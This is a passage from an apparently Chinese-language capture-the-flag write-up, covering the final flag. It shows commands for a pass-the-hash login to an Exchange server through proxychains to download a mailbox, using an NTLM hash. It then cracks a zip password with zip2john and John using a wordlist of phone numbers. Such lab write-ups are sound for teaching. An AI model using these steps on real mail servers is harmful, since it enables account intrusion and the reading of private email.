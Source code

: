## flag3

最后一个 flag 在邮件里，dump 一下邮件内容 ([https://github.com/Jumbo-WJB/PTH\_Exchange](https://github.com/Jumbo-WJB/PTH_Exchange))

```bash
proxychains python3 pthexchange.py --target https://172xxxxxx/ --username Lumia --password '00000000000000000000000000000000:862976f8b23c13529c2fb1428e710296' --action Download
```

[![](assets/1707954377-51b1bc40d524a47af1a68db27b5228fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173844-3008b504-c341-1.png)

发现了一个压缩包，里面有一个 flag，但需要密码解压。根据邮件内容，密码就是电话号码。尝试使用电话号码解压压缩包并查看里面的内容。

我们已成功提取了电话信息，并将其保存在名为 1.txt 的文件中。然后 John 爆破一下。

```bash
zip2john secret.zip >zip.txt
john --wordlist=1.txt zip.txt
```

这样整个流程就结束了
